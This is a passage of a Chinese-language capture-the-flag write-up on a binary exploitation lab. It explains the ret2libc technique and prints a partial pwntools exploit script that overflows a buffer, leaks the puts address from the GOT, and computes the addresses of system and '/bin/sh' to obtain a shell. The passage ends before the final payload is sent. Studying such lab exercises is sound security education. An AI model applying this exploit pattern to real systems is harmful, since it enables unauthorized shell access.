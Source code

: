 拿到Flag4力：

![image-20220405232202371](https://s2.loli.net/2022/04/05/yFw3P6lS9jqCizh.png)

最后一个Flag5，要用到ret2libc，非常的麻烦（当然是对我这种菜鸡来说: (。），简单说一下什么是ret2libc，原理：

> ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。

在这个程序中，我们可以通过调用动态链接库`libc.so`里面里面的`system`函数和`/bin/sh`字符串，构造出`system("/bin/sh")`就可以拿到Shell了，那么我们如何得到 system 函数的地址呢？这里就主要利用了两个知识点

- system 函数属于 libc，而 libc.so 动态链接库中的函数之间相对偏移是固定的。
- 即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变。而 libc 在 github 上有人进行收集，如下
- https://github.com/niklasb/libc-database

所以如果我们知道 libc 中某个函数的地址，那么我们就可以确定该程序利用的 libc。进而我们就可以知道 system 函数的地址。

那么如何得到 libc 中的某个函数的地址呢？我们一般常用的方法是采用 got 表泄露，即输出某个函数对应的 got 表项的内容。**当然，由于 libc 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址。**这里我选择之前的puts函数，使用其泄露的地址即可。此外， 在libc 中也是有 `/bin/sh` 字符串的，所以我们可以一起获得 `/bin/sh `字符串的地址。

Flag5的代码如下：

```python
from pwn import *


e = ELF("./pwn")
libc = ELF("./libc-2.31.so")   # 本次实验提供了与服务器端相同的libc库，
print(hex(e.address))
p = process("./pwn")
code = '10423'

for i in range(4):
	print(p.recvline())
	
p.sendline(code.encode())


print(p.recvline())
print(p.recvline())


pop_rdi = 0x00000000004016a3
target = 0x4040E0

ret = 0x40140A


payload = b'a'*0x31 + b'x'*0x8 + p64(pop_rdi) + p64(e.got['puts']) + p64(e.plt['puts']) + p64(0x401333)
# 泄露puts函数地址，相当于puts(got.puts)

p.sendline(payload)


libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00')) - libc.symbols['puts']
# 使用泄露出来的地址减去libc中对应的地址，得到基地址
system = libc_base + libc.symbols['system']
# 构造system函数的地址
for i in libc.search(b'/bin/sh'):
	binsh = i
	
binsh = libc_base + binsh
# 构造/bin/sh字符串的地址

payload = b'c'*0x38   #填充量，不知为啥，这次填充比第一次多了7个字节，明明是一样的函数
```